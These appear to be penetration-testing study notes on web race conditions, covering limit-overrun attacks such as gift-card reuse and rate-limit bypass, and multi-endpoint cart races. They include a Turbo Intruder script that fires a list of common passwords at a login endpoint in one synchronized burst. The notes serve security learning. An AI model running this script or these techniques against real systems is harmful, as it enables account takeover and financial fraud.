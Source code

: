 
# Content
- [Methodology](#methodology)
- [Limit overrun race conditions](#limit-overrun-raceconditions)
- [Multi-endpoint race conditions](#multi-endpoint-race-conditions)

## Methodology
#### 1 - Predict potential collisions
- Is this endpoint security critical ?
- Is there any collision potential ?

#### 2 - Probe for clues
- Benchmark the normal behavior
- Benchmark the upnormal behavior

#### 3 - Prove the concept


## Limit overrun race conditions
The most well-known type of race condition enables you to exceed some kind of limit imposed by the business logic of the application. 


**EX:** 
- Redeeming a gift card multiple times
- Rating a product multiple times
- Withdrawing or transferring cash in excess of your account balance
- Reusing a single CAPTCHA solution
- Bypassing an anti-brute-force rate limit

### Detecting and exploiting limit overrun race conditions with Burp Repeater and turpo intruder 
- For HTTP/1, it uses the classic last-byte synchronization technique.
- For HTTP/2, it uses the single-packet attack technique

#### Burp Repeater
- Identify a single-use or rate-limited endpoint that has some kind of security impact or other useful purpose.
- Issue multiple requests to this endpoint in quick succession to see if you can overrun this limit.


#### turpo intruder 
script example
```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords =[
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000"
]
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions
sending requests to multiple endpoints at the same time 

**EX:**


classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page. 

![race-conditions-basket-adjustment-race](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ca6050dd-4a6a-4a2c-99f3-b5943b9ff1a4)

In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed. 

#### Aligning multi-endpoint race windows Problems and Solutions

- **Delays introduced by network architecture**
```
Connection warming:
Back-end connection delays don't usually interfere with race condition attacks because they typically delay parallel requests equally, so the requests stay in sync.

you can try adding a GET request for the homepage to the start of your tab group with to ohter endpoints to test , then using the Send group in sequence (single connection) option. 

If the first request still has a longer processing time, but the rest of the requests are now processed within a short window
```



